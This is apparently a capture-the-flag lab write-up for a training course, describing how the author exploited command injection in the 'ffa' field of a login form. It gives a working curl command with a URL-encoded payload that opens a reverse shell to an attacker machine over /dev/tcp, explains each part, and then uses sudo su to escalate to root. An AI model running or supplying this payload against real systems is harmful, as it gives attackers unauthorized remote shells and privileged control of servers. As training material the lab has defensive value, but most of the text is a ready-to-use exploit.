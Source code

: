 Capstone Lab: Start the Future Factor Authentication application on VM #3. Identify the vulnerability, exploit it and obtain a reverse shell. Use sudo su in the reverse shell to obtain elevated privileges and find the flag located in the /root/ directory.

Command That got it
└─$ curl -X POST --data 'username=&password=&ffa=%24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.172%2F4444%200%3E%261%27%29' http://192.168.156.16/login

1. curl -X POST --data 'username=&password=&ffa=...

    curl: This is a command-line tool used to send HTTP requests.
    -X POST: Specifies that the HTTP request method is POST. This is typically used when sending data to the server (e.g., form submissions).
    --data 'username=&password=&ffa=...': This option sends the specified data in the POST request body. In this case, it includes three form fields:
        username: Set to an empty value.
        password: Set to an empty value.
        ffa: Contains the actual payload we are injecting to exploit the command injection vulnerability.

2. %24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.172%2F4444%200%3E%261%27%29

    The value of the ffa field is URL-encoded to ensure it is transmitted correctly over HTTP.

    URL-Decoded Equivalent:


    $(bash -c 'bash -i >& /dev/tcp/192.168.45.172/4444 0>&1')


3. $(...)

    The $(...) syntax is used to execute a command in a subshell. The output of the command inside the parentheses is returned and can be used in the script.
    In this case, $(bash -c '...') means "run the following command in a new Bash shell".

4. bash -c '...'

    bash -c '...': This tells Bash to execute the string provided in single quotes as a command. Here, we are running another Bash command within this context.

5. bash -i >& /dev/tcp/192.168.45.172/4444 0>&1

    bash -i: Starts an interactive Bash shell.
    >&: Redirects both the standard output (>) and standard error (&) to another location.
    /dev/tcp/192.168.45.172/4444: This is a special file in Unix-like systems that allows Bash to open a TCP connection. Here:
        192.168.45.172 is the IP address of your Kali machine (the attacker's machine).
        4444 is the port number on which your Netcat listener is waiting for a connection.
    0>&1: Redirects the standard input (0) to be the same as the standard output (1), essentially sending the input/output of the Bash shell over the TCP connection.

6. The Exploit in Action

    When this curl command is sent to the target server, it submits the form with the malicious payload.
    The payload is executed on the server due to the command injection vulnerability in the ffa field.
    This results in the server establishing a reverse shell connection back to your machine at 192.168.45.172:4444.
    You, as the attacker, receive an interactive shell on your machine through the Netcat listener, allowing you to execute commands on the target server.

Summary
This command exploits a command injection vulnerability by injecting a reverse shell payload into the ffa field.
When the server processes the form, it executes the payload, which opens a TCP connection to your machine and provides you with an interactive shell on the target server.
